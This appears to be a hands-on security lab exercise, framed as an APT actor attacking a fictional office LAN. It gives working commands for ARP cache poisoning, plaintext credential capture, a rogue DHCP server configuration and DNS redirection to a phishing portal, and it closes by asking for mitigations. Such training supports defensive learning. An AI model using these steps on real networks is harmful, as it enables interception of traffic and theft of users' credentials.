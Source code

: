 # The Silent Snoop

Objective: Act as an APT actor (`APT-77`, "ARP Phantom") to poison the local network's Address Resolution Protocol (ARP) tables and deploy a rogue DHCP server. This will position you as a silent intermediary for all traffic, allowing you to capture plaintext credentials and manipulate DNS resolution.

Scenario: The [OpenHands International](entity.md) office LAN uses a flat network structure with minimal segmentation. Your goal is to establish a persistent MitM position on this local network segment to intercept unencrypted traffic and redirect users to a malicious credential-harvesting portal.

## Phase 1: Network Reconnaissance & Topology Mapping

Goal: Understand the local network's addressing scheme and identify key targets like the default gateway and DNS server.

Instructions:

1.  Access Your Foothold:
    *   You have gained physical access to the OpenHands office and plugged your laptop into a network jack. A Linux VM on your laptop is your attack platform.
    *   Command: `ssh volunteer@localhost` (or log in directly to the VM desktop)
    *   Password: `[Provided by Lab Instructor]`

2.  Discover Your Network Configuration:
    *   Your machine should have received an IP address via DHCP. Find your IP, subnet mask, and most importantly, the default gateway.
    *   Command: `ip addr show` and `ip route show default`
    *   Your IP: `[DISCOVER THIS]`
    *   Default Gateway IP: `[DISCOVER THIS]` - This is your primary target. Note it as `GATEWAY_IP`.

3.  Map the Active Network:
    *   Perform an ARP scan to discover other live hosts on your local subnet without being too noisy.
    *   Command: `sudo netdiscover -i eth0 -r <your_subnet>/24` (e.g., if your IP is `192.168.1.50`, use `-r 192.168.1.0/24`)
    *   Finding: Note the IP and MAC address of the default gateway. Also, identify the IP of a colleague's workstation.
    *   Gateway MAC Address: `[DISCOVER THIS]`
    *   Colleague Workstation IP: `[DISCOVER THIS]` - Note it as `VICTIM_IP`.

4.  Identify the Legitimate DHCP Server:
    *   Often, the gateway is also the DHCP server. Check your system's DHCP lease file or try to identify it via network traffic.
    *   Command: `cat /var/lib/dhcp/dhclient.leases` or `sudo tcpdump -i eth0 -n port 67 or port 68 -c 5`
    *   Finding: What is the IP address of the DHCP server? It is likely your `GATEWAY_IP`.
    *   DHCP Server IP: `[CONFIRM THIS]`

Checkpoint: You have mapped the local network and identified the critical network infrastructure: the gateway and a victim machine.

## Phase 2: ARP Cache Poisoning (Machine-in-the-Middle)

Goal: Poison the ARP caches of the victim and the gateway to make them believe your MAC address is associated with the other's IP.

Instructions:

1.  Enable IP Forwarding:
    *   On your attacker machine, enable kernel-level IP forwarding. This ensures that after you intercept traffic, you can forward it on to its real destination, making the attack silent and persistent.
    *   Command: `sudo sysctl -w net.ipv4.ip_forward=1`

2.  Launch the ARP Poisoning Attack:
    *   We will use the tool `arpspoof` from the `dsniff` suite to perform the poisoning.
    *   Terminal 1 - Poison the Victim: Open a new terminal and tell the victim machine: "I am the gateway.":

    ```bash
    sudo arpspoof -i eth0 -t <VICTIM_IP> <GATEWAY_IP>
    ```
    *   Terminal 2 - Poison the Gateway: Open another terminal and tell the gateway: "I am the victim machine.":

    ```bash
    sudo arpspoof -i eth0 -t <GATEWAY_IP> <VICTIM_IP>
    ```

3.  Verify the attack is working:
    *   On your attacker machine, check your ARP table. It should correctly map the IPs to their real MAC addresses.
    *   On the victim machine (ask your instructor for access or simulate it), check its ARP table. The `GATEWAY_IP` should now be mapped to *your* machine's MAC address.
    *   Command on Victim (simulated): `arp -a`
    *   Finding: What MAC address does the victim have for the gateway? It should be your MAC address.
    *   Victim's ARP Entry for Gateway: `[YOUR MAC ADDRESS]`

Checkpoint: You are now a silent intermediary. All traffic between the victim and the gateway flows through your machine. You can begin intercepting.

## Phase 3: Traffic Interception & Credential Harvesting

Goal: Use a network sniffer to capture plaintext traffic and harvest credentials from unencrypted protocols.

Instructions:

1.  Capture Passing Traffic:
    *   Open a third terminal on your attacker machine. Use `tcpdump` to capture any HTTP traffic (which is unencrypted) for analysis.
    *   Command: `sudo tcpdump -i eth0 -w captured_http.pcap port 80 and host <VICTIM_IP>`

2.  Trigger Data Generation (Optional):
    *   Inform your lab instructor. They may have the "victim" machine browse to an internal HTTP-only login page (e.g., a legacy intranet site) and enter dummy credentials.

3.  Analyse the Capture for Credentials:
    *   Stop the `tcpdump` capture after a minute. Transfer the file to your home directory and open it in Wireshark.
    *   Command: `wireshark captured_http.pcap`
    *   Finding: In Wireshark, apply the filter `http.request.method == POST`. Follow the TCP stream of this packet. Can you find the submitted username and password in plaintext?
    *   Exfiltrated Credentials: `username=[DISCOVER THIS]&password=[DISCOVER THIS]`

Checkpoint: You have successfully intercepted and harvested plaintext credentials due to the use of an unencrypted protocol.

## Phase 4: Deploying a Rogue DHCP Server (Persistence)

Goal: Go beyond a single victim. Deploy a malicious DHCP server to assign yourself as the default gateway and DNS server for *every new device* on the network.

Instructions:

1.  Configure the Rogue DHCP Server:
    *   The tool `isc-dhcp-server` is pre-installed. You need to edit its configuration file.
    *   Command: `sudo nano /etc/dhcp/dhcpd.conf`
*   Configuration to add:

```text
authoritative;
subnet 192.168.1.0 netmask 255.255.255.0 {
  range 192.168.1.100 192.168.1.200;
  option routers <YOUR_ATTACKER_IP>;    # You become the gateway
  option domain-name-servers <YOUR_ATTACKER_IP>; # You become the DNS server
}
```

  *   *Adjust the subnet to match your lab environment.*

2.  Start the Rogue Server:
    *   Start the DHCP server on your network interface. This will respond to DHCP requests faster than the legitimate server.
*   Commands:

```bash
sudo systemctl stop systemd-resolved  # Stop any conflicting service
sudo dhcpd -f -d eth0 &               # Start the rogue server in the foreground
```

3.  Force Clients to Reconnect:
    *   Ask your instructor to release and renew the DHCP lease on another lab machine (the "victim").
    *   Command on Victim (simulated): `sudo dhclient -r eth0 && sudo dhclient eth0`
    *   Verification: After the victim renews, check its new gateway and DNS server. They should now be your attacker IP.
    *   Victim's New Gateway: `[YOUR_ATTACKER_IP]`

Checkpoint: You have achieved network-level persistence. Any new device joining the network or renewing its lease will now be routed through you.

## Phase 5: DNS Manipulation (Optional Bonus)

Goal: Since you are now the DNS server for poisoned clients, you can manipulate their internet traffic.

Instructions:

1.  Set Up a Simple DNS Server:
    *   Use a simple tool like `dnschef` to run a fake DNS server that redirects all queries to an IP you control (e.g., for a phishing site).
    *   Command: `sudo dnschef --fakeip=<YOUR_ATTACKER_IP> --interface=<YOUR_ATTACKER_IP> --port=53`

2.  Test the DNS Redirection:
    *   On the victim machine, try to browse to `http://www.google.com`. The request will be sent to your machine's web server instead.
    *   Observation: If you set up a simple HTTP server on your machine (`sudo python3 -m http.server 80`), you will see the victim's request in your logs.

Final Report: Document all the `[DISCOVER THIS]` fields. Explain the impact of ARP and DHCP poisoning on network security. Propose two mitigations to prevent these attacks (e.g., DHCP Snooping, Dynamic ARP Inspection).
